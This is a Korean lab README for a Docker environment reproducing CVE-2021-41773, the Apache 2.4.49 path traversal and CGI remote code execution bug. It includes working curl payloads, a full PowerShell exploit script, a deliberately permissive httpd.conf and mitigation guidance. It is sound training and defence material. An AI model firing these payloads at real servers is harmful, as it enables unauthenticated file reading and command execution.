




# CVE-2021-41773: Apache HTTP Server 2.4.49 Path Traversal 및 RCE

> **주의:** 이 프로젝트는 보안 교육과 취약점 분석을 위한 로컬 실습 환경입니다.  
> 허가받지 않은 시스템이나 외부 서버를 대상으로 PoC를 실행하지 마십시오.

## 목차

1. [취약점 요약](#1-취약점-요약)
2. [환경 구성](#2-환경-구성)
3. [취약 조건](#3-취약-조건)
4. [환경 실행](#4-환경-실행)
5. [재현 절차](#5-재현-절차)
6. [PoC 코드](#6-poc-코드)
7. [실행 결과](#7-실행-결과)
8. [대응 방안](#8-대응-방안)
9. [Reproducibility](#9-reproducibility)
10. [Risk Score](#10-risk-score)
11. [환경 종료 및 초기화](#11-환경-종료-및-초기화)
12. [참고 자료](#12-참고-자료)

---

## 1. 취약점 요약

CVE-2021-41773은 **Apache HTTP Server 2.4.49**의 URL 경로 정규화 과정에서 발생하는 Path Traversal 취약점이다.

공격자는 `.%2e`와 같이 인코딩된 상위 디렉터리 표현을 포함한 URL을 전송하여 `Alias` 계열 지시어로 공개된 디렉터리의 상위 경로에 접근할 수 있다. 대상 디렉터리가 Apache의 기본 접근 거부 정책인 `Require all denied`로 보호되지 않은 경우 웹 루트 밖의 파일을 읽을 수 있다.

또한 CGI 기능과 접근 가능한 `ScriptAlias` 경로가 활성화된 환경에서는 시스템의 실행 파일에 접근하여 원격 명령 실행(Remote Code Execution)으로 이어질 수 있다.

본 실습에서는 다음 두 가지 영향을 재현한다.

1. Path Traversal을 이용한 컨테이너 내부 표식 파일 읽기
2. CGI를 이용한 비파괴 명령 `id` 실행

### 취약점 정보

| 항목 | 내용 |
|---|---|
| CVE | CVE-2021-41773 |
| 대상 제품 | Apache HTTP Server |
| 취약 버전 | 2.4.49 |
| 취약점 유형 | Path Traversal, File Disclosure, Remote Code Execution |
| CWE | CWE-22: Improper Limitation of a Pathname to a Restricted Directory |
| 공격 위치 | Network |
| 인증 필요 여부 | 없음 |
| 사용자 상호작용 | 없음 |
| CVSS v3.1 | 9.8 / 10.0, Critical |
| CVSS 벡터 | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |

---

## 2. 환경 구성

### 2.1 검증 환경

| 항목 | 버전 또는 설정 |
|---|---|
| Host OS | Windows, CMD 및 PowerShell |
| Docker Engine | 29.6.1 |
| Docker Compose | v5.3.0 |
| Container Base | Debian Bullseye Slim |
| Apache HTTP Server | 2.4.49 |
| MPM | prefork |
| CGI Module | `cgi_module (shared)` |
| Alias Module | `alias_module (shared)` |
| Host Address | `127.0.0.1:8080` |
| Container Port | `80/tcp` |

호스트 포트는 `127.0.0.1`에만 바인딩하여 취약 서버가 외부 네트워크에 노출되지 않도록 구성하였다.

### 2.2 파일 구성

```text
CVE-2021-41773/
├── .gitattributes
├── Dockerfile
├── docker-compose.yml
├── httpd.conf
├── poc.ps1
├── poc.sh
├── verify.sh
├── README.md
└── images/
    ├── 01-container-status.png
    ├── 02-apache-version.png
    ├── 03-file-read.png
    └── 04-rce-result.png
```

| 파일 | 역할 |
|---|---|
| `Dockerfile` | Apache HTTP Server 2.4.49를 소스에서 빌드하고 취약 환경을 생성 |
| `docker-compose.yml` | 취약 환경을 단일 Compose 서비스로 실행 |
| `httpd.conf` | Alias, CGI 및 재현에 필요한 접근 조건 설정 |
| `poc.ps1` | Windows PowerShell용 자동 PoC |
| `poc.sh` | Linux, WSL 및 Git Bash용 자동 PoC |
| `verify.sh` | 이미지 재빌드부터 PoC까지 자동 검증 |
| `images/` | 로컬에서 촬영한 실행 결과 이미지 |

### 2.3 Docker 구성 특징

- `docker compose` 명령 하나로 환경을 구성한다.
- 출처가 불분명한 취약 이미지를 사용하지 않는다.
- Apache HTTP Server 2.4.49를 Dockerfile에서 직접 빌드한다.
- Apache 소스 파일의 SHA-256 체크섬을 검증한다.
- 서비스 포트를 localhost에만 바인딩한다.
- Healthcheck를 통해 웹 서버의 실행 상태를 확인한다.

---

## 3. 취약 조건

본 환경에서 CVE-2021-41773이 재현되기 위한 조건은 다음과 같다.

1. Apache HTTP Server 버전이 **2.4.49**여야 한다.
2. `Alias` 또는 `ScriptAlias`로 연결된 경로가 존재해야 한다.
3. 외부 디렉터리에 대한 접근이 `Require all denied`로 차단되지 않아야 한다.
4. 조작된 URL 경로가 클라이언트에서 정규화되지 않은 채 서버에 전달되어야 한다.
5. 명령 실행을 확인하려면 CGI 모듈과 CGI 실행 경로가 활성화되어야 한다.

취약점 자체는 Apache HTTP Server 2.4.49의 경로 정규화 오류이다. 아래의 Alias, CGI 및 접근 허용 설정은 취약점의 영향을 Docker 실습 환경에서 관찰하기 위한 재현 조건이다.

`httpd.conf`의 핵심 설정은 다음과 같다.

```apache
LoadModule cgi_module modules/mod_cgi.so

ServerName localhost

Alias /public/ "/usr/local/apache2/htdocs/"

<Directory "/">
    AllowOverride None
    Require all granted
</Directory>

<Directory "/usr/local/apache2/htdocs">
    Options Indexes FollowSymLinks
    AllowOverride None
    Require all granted
</Directory>

ScriptAlias /lab-cgi/ "/usr/local/apache2/cgi-bin/"

<Directory "/usr/local/apache2/cgi-bin">
    Options +ExecCGI
    AllowOverride None
    Require all granted
</Directory>
```

`<Directory "/"> Require all granted`는 취약점의 영향을 확인하기 위한 실습용 설정이며 운영 환경에서 사용하면 안 된다.

---

## 4. 환경 실행

저장소 최상위 디렉터리에서 CVE 환경으로 이동한다.

```bash
cd Apache/CVE-2021-41773
```

환경을 빌드하고 실행한다.

```bash
docker compose up -d --build
```

컨테이너 상태를 확인한다.

```bash
docker compose ps
```

정상 실행 시 `STATUS`에 `healthy`가 표시된다.



### Apache 버전 확인

```bash
docker compose exec apache /usr/local/apache2/bin/httpd -v
```

예상 결과:

```text
Server version: Apache/2.4.49
```

### 설정 문법 확인

```bash
docker compose exec apache /usr/local/apache2/bin/httpd -t
```

예상 결과:

```text
Syntax OK
```

### CGI 및 Alias 모듈 확인

Windows CMD:

```bat
docker compose exec apache sh -c "/usr/local/apache2/bin/httpd -M 2>&1" | findstr /I "cgi_module alias_module"
```

Linux, WSL 또는 Git Bash:

```bash
docker compose exec apache /usr/local/apache2/bin/httpd -M 2>&1 | grep -E "cgi_module|alias_module"
```

예상 결과:

```text
cgi_module (shared)
alias_module (shared)
```



---

## 5. 재현 절차

### 5.1 정상 웹 서비스 확인

Windows CMD:

```bat
curl.exe -i http://127.0.0.1:8080/
```

Linux, WSL 또는 Git Bash:

```bash
curl -i http://127.0.0.1:8080/
```

정상 실행 시 `HTTP/1.1 200 OK`와 실습 페이지가 반환된다.

### 5.2 Path Traversal을 이용한 파일 읽기

Docker 이미지 빌드 과정에서 다음 표식 파일을 생성한다.

```text
/tmp/vulhub-proof.txt
```

파일 내용:

```text
KR-VULHUB-CVE-2021-41773
```

Windows CMD:

```bat
curl.exe -i --path-as-is "http://127.0.0.1:8080/public/.%2e/.%2e/.%2e/.%2e/tmp/vulhub-proof.txt"
```

Linux, WSL 또는 Git Bash:

```bash
curl -i --path-as-is   "http://127.0.0.1:8080/public/.%2e/.%2e/.%2e/.%2e/tmp/vulhub-proof.txt"
```

`--path-as-is` 옵션은 curl이 요청 경로를 먼저 정규화하지 않고 조작된 경로를 그대로 서버에 전송하도록 한다.

예상 결과:

```text
HTTP/1.1 200 OK
...
KR-VULHUB-CVE-2021-41773
```



### 5.3 CGI를 이용한 명령 실행

Windows CMD:

```bat
curl.exe -i --path-as-is -X POST --data-binary "echo Content-Type: text/plain; echo; id" "http://127.0.0.1:8080/lab-cgi/.%2e/.%2e/.%2e/.%2e/bin/sh"
```

Linux, WSL 또는 Git Bash:

```bash
curl -i --path-as-is   -X POST   --data-binary 'echo Content-Type: text/plain; echo; id'   "http://127.0.0.1:8080/lab-cgi/.%2e/.%2e/.%2e/.%2e/bin/sh"
```

요청 본문은 `/bin/sh`에 전달되어 CGI 응답 헤더와 `id` 명령 결과를 출력한다.

예상 결과:

```text
HTTP/1.1 200 OK
Content-Type: text/plain

uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

본 PoC에서는 환경에 피해를 주지 않는 `id` 명령만 실행한다.

---

## 6. PoC 코드

### 6.1 Windows PowerShell PoC

전체 PoC는 [`poc.ps1`](./poc.ps1)에 포함되어 있다.

```powershell
param(
    [string]$Target = "http://127.0.0.1:8080"
)

$ErrorActionPreference = "Stop"

$FilePath = "/public/.%2e/.%2e/.%2e/.%2e/tmp/vulhub-proof.txt"
$RcePath = "/lab-cgi/.%2e/.%2e/.%2e/.%2e/bin/sh"

function Invoke-Curl {
    param(
        [string[]]$Arguments
    )

    $Output = & curl.exe @Arguments 2>&1

    if ($LASTEXITCODE -ne 0) {
        throw "curl 실행 실패: $($Output -join "`n")"
    }

    return ($Output -join "`n")
}

Write-Host "=================================================="
Write-Host " CVE-2021-41773 PoC"
Write-Host " Target: $Target"
Write-Host "=================================================="

Write-Host ""
Write-Host "[1] 웹 서버 연결 확인"

Invoke-Curl -Arguments @(
    "--fail",
    "--silent",
    "--show-error",
    "--max-time", "10",
    "$Target/"
) | Out-Null

Write-Host "[+] 웹 서버가 정상적으로 응답했습니다."

Write-Host ""
Write-Host "[2] Path Traversal을 이용한 파일 읽기"

$FileResult = Invoke-Curl -Arguments @(
    "--silent",
    "--show-error",
    "--path-as-is",
    "--max-time", "10",
    "$Target$FilePath"
)

Write-Host $FileResult

if (-not $FileResult.Contains("KR-VULHUB-CVE-2021-41773")) {
    throw "표식 파일 읽기에 실패했습니다."
}

Write-Host "[+] Path Traversal 파일 읽기 성공"

Write-Host ""
Write-Host "[3] CGI를 이용한 비파괴 명령 실행"

$RceResult = Invoke-Curl -Arguments @(
    "--silent",
    "--show-error",
    "--path-as-is",
    "--max-time", "10",
    "--request", "POST",
    "--data-binary", "echo Content-Type: text/plain; echo; id",
    "$Target$RcePath"
)

Write-Host $RceResult

if (-not $RceResult.Contains("uid=")) {
    throw "명령 실행 결과를 확인하지 못했습니다."
}

Write-Host "[+] CGI 기반 명령 실행 성공"

Write-Host ""
Write-Host "=================================================="
Write-Host "[+] CVE-2021-41773 재현에 성공했습니다."
Write-Host "=================================================="
```

PowerShell에서 실행한다.

```bat
powershell.exe -NoProfile -ExecutionPolicy Bypass -File "%CD%\poc.ps1"
```

### 6.2 Bash PoC

Linux, WSL 또는 Git Bash에서는 [`poc.sh`](./poc.sh)를 실행한다.

```bash
chmod +x poc.sh
./poc.sh
```

---

## 7. 실행 결과

### 7.1 파일 읽기 결과

Path Traversal 요청의 HTTP 응답에서 다음 표식 문자열을 확인하였다.

```text
KR-VULHUB-CVE-2021-41773
```

따라서 웹 서버의 공개 디렉터리 밖에 있는 `/tmp/vulhub-proof.txt` 파일에 접근할 수 있음을 확인하였다.

### 7.2 명령 실행 결과

CGI 기반 PoC의 HTTP 응답에서 다음 결과를 확인하였다.

```text
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

따라서 인증되지 않은 HTTP 요청으로 Apache 프로세스 권한의 시스템 명령이 실행되는 것을 확인하였다.

### 7.3 자동 PoC 결과

PowerShell PoC는 다음 항목을 순서대로 검사한다.

1. 웹 서버 연결 여부
2. 표식 파일 읽기 성공 여부
3. CGI 명령 실행 결과에 `uid=`가 포함되는지 여부

실제 실행 결과 두 검사가 모두 성공하였고 다음 메시지가 출력되었다.

```text
[+] Path Traversal 파일 읽기 성공
[+] CGI 기반 명령 실행 성공
[+] CVE-2021-41773 재현에 성공했습니다.
```



---

## 8. 대응 방안

### 8.1 안전한 버전으로 업그레이드

가장 중요한 대응은 Apache HTTP Server를 취약하지 않은 최신 지원 버전으로 업그레이드하는 것이다.

CVE-2021-41773에 대한 수정은 2.4.50에 포함되었지만, 해당 수정의 우회 취약점인 CVE-2021-42013이 2.4.50에서 확인되었다. 따라서 **2.4.51 이상 또는 현재 지원되는 최신 보안 버전**으로 업그레이드하는 것이 안전하다.

### 8.2 기본 거부 정책 적용

서버 파일 시스템의 루트 디렉터리는 기본적으로 접근을 거부해야 한다.

```apache
<Directory "/">
    AllowOverride None
    Require all denied
</Directory>
```

필요한 웹 콘텐츠 경로만 별도로 허용한다.

```apache
<Directory "/usr/local/apache2/htdocs">
    Require all granted
</Directory>
```

### 8.3 불필요한 CGI 비활성화

CGI 기능이 필요하지 않다면 `mod_cgi` 또는 `mod_cgid`를 로드하지 않고 `ScriptAlias` 설정을 제거한다.

### 8.4 Alias 범위 최소화

- 불필요한 `Alias` 및 `ScriptAlias` 설정을 제거한다.
- 공개가 필요한 디렉터리만 명시적으로 허용한다.
- 광범위한 `Require all granted` 설정을 사용하지 않는다.

### 8.5 최소 권한 실행

Apache 프로세스를 root가 아닌 전용 저권한 사용자로 실행하여 취약점 악용 시 영향을 제한한다.

### 8.6 탐지 및 모니터링

웹 서버와 보안 장비에서 다음과 같은 비정상적인 URL 패턴을 탐지한다.

```text
.%2e
%2e%2e
../
```

WAF 규칙은 임시 완화책으로 사용할 수 있지만 제품 업그레이드와 접근 제어 수정을 대신할 수 없다.

---

## 9. Reproducibility

### 점수: 90%

본 환경의 재현성을 90%로 평가하였다.

#### 재현성을 높이는 요소

- `docker compose up -d --build` 한 번으로 환경이 구성된다.
- Apache HTTP Server 버전을 2.4.49로 고정하였다.
- 외부 취약 이미지 대신 Dockerfile에서 Apache를 직접 빌드한다.
- 다운로드한 소스 파일의 SHA-256을 검증한다.
- Healthcheck로 서버 준비 상태를 확인한다.
- Windows PowerShell과 Bash용 PoC를 제공한다.
- PoC가 표식 문자열과 `uid=`를 이용하여 성공 여부를 자동 판정한다.
- `--no-cache` 빌드를 이용해 깨끗한 환경에서 재검증하였다.
- 모든 스크린샷을 저장소 내부에 포함하고 상대경로로 참조한다.

#### 제한 사항

- 최초 빌드 시 Debian 패키지 저장소와 Apache 소스 아카이브에 접근할 인터넷 연결이 필요하다.
- CPU 성능과 네트워크 상태에 따라 Apache 소스 컴파일 시간이 달라질 수 있다.
- Windows PowerShell 5.1에서는 파일 인코딩에 따라 한글 출력이 깨질 수 있으므로 `poc.ps1`을 UTF-8 with BOM으로 저장해야 한다.

---

## 10. Risk Score

### 점수: 9.8 / 10.0 — Critical

CVSS v3.1 벡터:

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

| 지표 | 값 | 근거 |
|---|---|---|
| Attack Vector | Network | 원격 HTTP 요청으로 악용 가능 |
| Attack Complexity | Low | 특별한 경쟁 조건이나 복잡한 사전 작업이 필요하지 않음 |
| Privileges Required | None | 사전 인증이 필요하지 않음 |
| User Interaction | None | 피해 사용자의 별도 동작이 필요하지 않음 |
| Scope | Unchanged | Apache 프로세스의 보안 권한 범위에서 영향 발생 |
| Confidentiality | High | 웹 루트 밖의 파일을 읽을 수 있음 |
| Integrity | High | CGI 조건에서 시스템 명령 실행 가능 |
| Availability | High | 명령 실행을 통해 서비스와 시스템 가용성에 영향을 줄 수 있음 |

본 Docker 환경에서는 실제로 다음 동작을 확인하였다.

- 인증 없는 Path Traversal 파일 읽기
- 인증 없는 CGI 기반 시스템 명령 실행
- Apache 프로세스 사용자 `daemon` 권한 획득

---

## 11. 환경 종료 및 초기화

컨테이너를 종료한다.

```bash
docker compose down
```

컨테이너, 볼륨 및 프로젝트 이미지를 함께 제거한다.

```bash
docker compose down --volumes --remove-orphans --rmi local
```

깨끗한 환경에서 다시 검증한다.

```bash
docker compose down --volumes --remove-orphans --rmi local
docker compose build --no-cache --progress=plain
docker compose up -d --force-recreate
docker compose ps
```

Windows PowerShell PoC를 다시 실행한다.

```bat
powershell.exe -NoProfile -ExecutionPolicy Bypass -File "%CD%\poc.ps1"
```

---

## 12. 참고 자료

- Apache HTTP Server 2.4 vulnerabilities  
  <https://httpd.apache.org/security/vulnerabilities_24.html>
- NVD: CVE-2021-41773  
  <https://nvd.nist.gov/vuln/detail/CVE-2021-41773>
- Apache HTTP Server CGI documentation  
  <https://httpd.apache.org/docs/2.4/howto/cgi.html>
- kr-vulhub  
  <https://github.com/gunh0/kr-vulhub>

---

## 실습 결론

Apache HTTP Server 2.4.49의 경로 정규화 오류를 이용하여 웹 루트 밖의 표식 파일을 읽을 수 있었다. CGI 기능과 접근 허용 설정이 함께 적용된 환경에서는 `/bin/sh`를 통해 `id` 명령을 실행할 수 있었다.

이를 통해 CVE-2021-41773은 인증이 필요하지 않은 원격 공격으로 기밀성, 무결성 및 가용성에 높은 영향을 줄 수 있는 취약점임을 확인하였다. 안전한 운영을 위해서는 Apache를 최신 지원 버전으로 업그레이드하고, 파일 시스템 루트에 기본 거부 정책을 적용하며, 불필요한 CGI와 Alias 설정을 제거해야 한다.
